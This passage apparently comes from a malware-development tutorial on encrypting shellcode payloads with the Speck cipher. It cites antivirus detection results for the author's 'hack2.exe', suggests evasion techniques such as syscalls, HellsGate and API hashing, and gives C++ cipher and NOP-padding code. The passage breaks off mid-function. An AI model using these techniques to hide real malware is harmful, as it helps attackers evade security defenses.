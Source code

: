 [https://www.virustotal.com/gui/file/27cd07ee465ee35ef46eab7616c8621b9b66de333eff7b887240c9ba90a1464b/detection](https://www.virustotal.com/gui/file/27cd07ee465ee35ef46eab7616c8621b9b66de333eff7b887240c9ba90a1464b/detection)     

**So, 25 of of 71 AV engines detect our file as malicious**. Because our `hack2.exe` malware used well known shellcode launching technique.       

For better result we can use syscalls, HellsGate techniques, function call obfuscation, hashing WINAPI functions etc, etc.      

### practical example 3

What about if payload size is not a multiple of 16? In this case we need padding. Here's the implementation of the Speck cipher, including key schedule, encryption, decryption, and padding logic:     

```cpp
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 32
#define BLOCK_SIZE 16 // 128 bits

uint64_t key[2] = {0x1b1a191813121110, 0x0b0a090803020100};
uint64_t round_keys[ROUNDS];

uint64_t rol(uint64_t x, int r) {
  return (x << r) | (x >> (64 - r));
}

uint64_t ror(uint64_t x, int r) {
  return (x >> r) | (x << (64 - r));
}

void speck_key_schedule() {
  uint64_t b = key[1];
  round_keys[0] = key[0];
  for (int i = 0; i < ROUNDS - 1; i++) {
    b = (ror(b, 8) + round_keys[i]) ^ i;
    round_keys[i + 1] = rol(round_keys[i], 3) ^ b;
  }
}

void speck_encrypt(uint64_t* x, uint64_t* y) {
  for (int i = 0; i < ROUNDS; i++) {
    *x = (ror(*x, 8) + *y) ^ round_keys[i];
    *y = rol(*y, 3) ^ *x;
  }
}

void speck_decrypt(uint64_t* x, uint64_t* y) {
  for (int i = ROUNDS - 1; i >= 0; i--) {
    *y = ror(*y ^ *x, 3);
    *x = rol((*x ^ round_keys[i]) - *y, 8);
  }
}

void pad_payload(unsigned char** payload, int* length) {
  int pad_len = BLOCK_SIZE - (*length % BLOCK_SIZE);
  if (pad_len == 0) pad_len = BLOCK_SIZE;
  *payload = realloc(*payload, *length + pad_len);
  memset(*payload + *length, 0x90, pad_len); // NOP padding
  *length += pad_len;
```